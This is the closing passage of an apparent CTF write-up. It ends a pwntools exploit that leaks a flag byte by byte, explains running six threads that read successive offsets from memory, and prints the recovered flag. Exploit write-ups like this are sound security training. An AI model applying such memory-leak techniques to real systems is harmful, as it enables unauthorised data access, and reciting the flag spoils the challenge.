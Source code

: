                 break
            # raw_input()
            r.close()

        shift_count += 1
        flag += chr(guess)
    print(flag)
    r.interactive()
    ```
    :::
* <font color="FF0000">Note that</font>: I create 6 multi-threads to execute the exploit program simultaneously with a little bit difference
1st thread: `mov rax, [r10]`            output:FLAG{pia
2nd thread: `mov rax, [r10+0x8]`        output:no_d113f
3rd thread: `mov rax, [r10+0x10]`        output:1c3f9ed8
4th thread: `mov rax, [r10+0x18]`        output:019288f4
5th thread: `mov rax, [r10+0x20]`        output:e8ddecfb
6th thread: `mov rax, [r10+0x28]`        output:8ec}
FLAG{piano_d113f1c3f9ed8019288f4e8ddecfb8ec}
## Reference
[linux 中mmap的用法](https://www.cnblogs.com/bittorrent/p/3267736.html)